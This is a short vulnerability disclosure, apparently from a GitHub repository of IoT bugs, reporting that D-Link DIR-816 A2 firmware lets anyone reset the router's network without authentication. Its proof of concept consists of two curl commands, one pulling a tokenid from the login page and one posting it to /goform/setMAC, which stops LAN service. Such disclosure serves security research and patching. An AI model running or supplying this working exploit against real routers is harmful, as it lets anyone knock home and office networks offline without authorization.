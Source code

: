 # D-link DIR-816 A2_v1.10CNB04.img Network reset without authentication

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/setmac/img/vuln1.png)

As shown above, in any case, you can go to the initInternet function to reset the network. At this time, the local area network will stop serving.

## Poc

The first thing you need to do is to get the tokenid
```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc
```
curl -i -X POST http://192.168.0.1/goform/setMAC -d tokenid=xxxxx
```
The router will then reset the network

